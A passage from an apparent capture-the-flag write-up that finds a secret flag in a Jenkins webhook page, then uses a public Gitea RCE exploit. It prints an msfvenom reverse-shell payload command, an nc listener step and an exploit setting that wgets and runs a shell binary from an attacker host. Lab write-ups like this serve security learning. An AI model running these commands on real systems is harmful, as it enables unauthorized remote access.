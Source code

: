 On examining the settings of the `jenkins` repository , we come across a tab for webhooks with an entry to an internal IP address. 

![Webhooks tab](/img/palsforlife/jenkins_webhook.png)

The webhook has a secret which we can expose by viewing the source code of the page or by using Developer Tools. 

Flag 1 can be found as the value of the input tag.

![flag1](/img/palsforlife/flag1.png)

---

## Blind RCE of Gitea Application

Looking up exploits for Gitea, we find an RCE at [https://www.exploit-db.com/exploits/49383](https://www.exploit-db.com/exploits/49383). In order to leverage this exploit, we need to create a payload using msfvenom. 

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell
```

Start an listener on the port specified above using nc to catch the reverse shell. In order to get the exploit to work, change the following values in the exploit.

```
USERNAME = "leeroy"
PASSWORD = "<password>"
HOST_ADDR = '<attacker-ip>'
HOST_PORT = <attacker-port>
URL = 'http://<target-ip>:31111'
CMD = 'wget http://<attacker-ip>:><port>/shell && chmod 777 shell && ./shell'
```
